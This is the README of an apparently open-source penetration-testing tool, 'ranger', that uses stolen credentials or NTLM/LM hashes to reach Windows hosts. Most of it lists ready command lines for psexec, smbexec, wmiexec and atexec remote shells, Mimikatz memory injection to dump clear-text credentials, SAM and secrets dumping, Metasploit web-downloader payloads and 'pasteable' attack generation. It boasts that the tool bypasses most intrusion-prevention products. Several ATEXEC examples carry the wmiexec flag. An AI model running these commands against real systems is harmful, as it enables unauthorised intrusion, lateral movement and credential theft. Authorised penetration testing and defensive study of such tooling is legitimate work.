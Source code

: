 # ranger
A tool to support security professionals access and interact with remote Microsoft Windows based systems.

This project was conceptualized with the thought process, we did not invent the bow or the arrow, 
just a more efficient way of using it.

Ranger is a command-line driven attack and penetration testing tool, which as the ability to use 
an instantiated catapult server to deliver capabilities against Windows Systems.  As long as a user 
has a set of credentials or a hash set (NTLM, LM, LM:NTLM) he or she can gain access to systems that 
are apart of the trust.

Using this capability a security professional can extract credentials out of memory in clear-text, 
access SAM tables, run commands, execute PowerShell scripts, Windows Binaries, and other tools.  
At this time the tool bypasses the majority of IPS vendor solutions unless they have been custom 
tuned to detect it. The tool was developed using our home labs in an effort to support security 
professionals doing legally and/or contractually supported activities.

More functionality is being added, but at this time the tool uses the community contributions 
from repositories related to the PowerShell PowerView, PowerShell Mimikatz and Impacket teams.  

Find Logged In Users
ranger.py [-u Administrator] [-p Password1] [-d Domain] --scout

SMBEXEC Command Shell:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --smbexec -q -v -vv -vvv

PSEXEC Command Shell:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --psexec -q -v -vv -vvv

PSEXEC Command Execution:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --psexec -c "Net User" -q -v -vv -vvv

WMIEXEC Command Execution:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --wmiexec -c "Net User"

WMIEXEC PowerShell Mimikatz Memory Injector:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --wmiexec --invoker

WMIEXEC Metasploit web_downloader Memory Injector:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --wmiexec --downloader

WMIEXEC Custom Code Memory Injector:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --wmiexec --executor -c "binary.exe"

ATEXEC Command Execution:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --atexec -c "Net User" --no-encoder

ATEXEC PowerShell Mimikatz Memory Injector:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --wmiexec --invoker --no-encoder

ATEXEC Metasploit web_downloader Memory Injector:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --wmiexec --downloader --no-encoder

ATEXEC Custom Code Memory Injector:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --wmiexec --executor -c "binary.exe" --no-encoder

SECRETSDUMP Custom Code Memory Injector:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --secrets-dump

Create Pasteable Mimikatz Attack:
ranger.py --invoker -q -v -vv -vvv

Create Pasteable web_downloader Attack:
ranger.py --downloader -q -v -vv -vvv

Create Pasteable Executor Attack:
ranger.py --executor -q -v -vv -vvv
